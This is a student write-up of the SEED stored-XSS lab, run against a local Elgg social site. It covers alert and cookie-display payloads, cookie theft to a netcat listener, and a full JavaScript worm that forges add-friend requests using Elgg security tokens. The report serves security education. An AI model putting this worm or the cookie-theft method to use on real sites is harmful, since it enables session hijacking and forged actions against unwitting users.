 # Setup
We start this lab by following the instructions in the guide:

Add the lines to the /etc/hosts file (actually, we only need to add 10.9.0.5 www.seed-server.com, as the rest are already there);
Setup the docker containers using the alias dcbuild and launch them using dcup.

# Lab Tasks

## 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

In this preparatory task we just follow the instructions given in the Guidelines section 5.1.

## 3.2 Posting a malicious message to display an alert window

For this task, we chose to use the Samy profile. By pasting the suggested javascript code in the "brief description" field, as input is not sanitized, everytime any other user visits the profile, an alert pop-up will be displayed with the message "XSS". With this we can start to play around with the XSS attack and understand its foundations.

Using the folloowing code in Samy's brief description field:

![picture 1](images/3dcd07650562573d5b9f75ad1a2286438f2f57b09eaf6153d336c356df288f96.png)  

When acessing Samy's profile while logged in as Alice:

![picture 2](images/418e198f33de4550fc93567ba2b5bbfcf711ac6b2ceecca75f06d6d67286b741.png)  

## 3.3 Posting a malicious message to display cookies

By changing the argument of the alert window that we created with the javascript of the last task, we can display important information about the site, user, session, etc. In this case, we change the messagae 'XSS' to __document.cookie__, which will result in the display of the cookies of the document in the pop-up alert.
However, only the user viewing the malicious profile will be prompted with this message.

Using the folloowing code in Samy's brief description field:

![picture 3](images/9a9b3724b39556760283093abc98468a6d3780293f8cd40bba05ef83883178a7.png)  

When acessing Samy's profile while logged in as Alice:

![picture 4](images/b03767a84a6801e8e5da03b41793ad881c9a4d1cbd2b9eb138070b9e2bbd399f.png)  

## 3.4  Stealing cookies from the victim's machine

In this task, we go a step further and make the cookies be sent to the attacker, instead of only being displayed to the user.  To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

Using the folloowing code in Samy's brief description field:

![picture 5](images/eadb3a07dfe4655396ed2fdaaede269a12545eea46b5e9bf6b097f1d50c764b1.png)  

Using the netcat command with the recommended options, we can listen for any requests made from users that visited our profile:

When we access Samy's profile while logged in as Alice, for example, we can see that the cookies are sent to us via the request:

![picture 6](images/9576c1dc98a20c942b2bb21842b85a3abc1f4e6de76ff9b125aa2e5fc68464f5.png)  

## 3.5  Becoming the victim's friend

In this task, our objective is to write a worm that adds Samy as a friend of any user that visits the malicious profile.

Our malicious javascript file must forge an HTTP request, so the first step is to add Samy as a user normally, and analyze the request that is sent, so we can later replicate it. To do this, we use the extension HTTP Header Live.

![picture 7](images/2b06a11604a974bccaae38b19d9e2ea3ee0e1b194367fb3dbf56304c90a9733f.png)  

The full request URLis: 
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw
````

Using this information, we can now write our worm in the file __friend_worm.js__:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

When we place this code in Samy's about me field, and access his profile while logged in as Alice, we can see that Alice is added as a friend of Samy:

![picture 8](images/888f5500d41b79bc6119563608c3540f98ae361737d207d997ecb35ab44847d1.png)  
![picture 9](images/10b5469a11b2310b8dd5b8128daa70beb167388c3c9ffa664c3167bf68749586.png)  
![picture 10](images/e7a9c15cf613e509bbec44cc7600287c97058b9f711e4890dfb37e8677e1ec6e.png)  
![picture 11](images/6ed8a3d7228eedb6d7ce8e47f7a5fbf3fb3477d28f32b213fbe6e8588e079fc5.png)  

__Questions:__

1. The numbered lines are used to authenticate the user when the request is made. The security tokens are unique to each user and are used to prevent other users to make requests in their name. Using this, our forged request will be accepted by the server.

2. No, if the application only provided the Editor mode for the "About me" field, an attack would not be successful, as the Editor mode filters and encodes any HTML special characters and tags - input sanitization. This way we are not able to inject our script into the profile page.


# Group 7, 26/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt

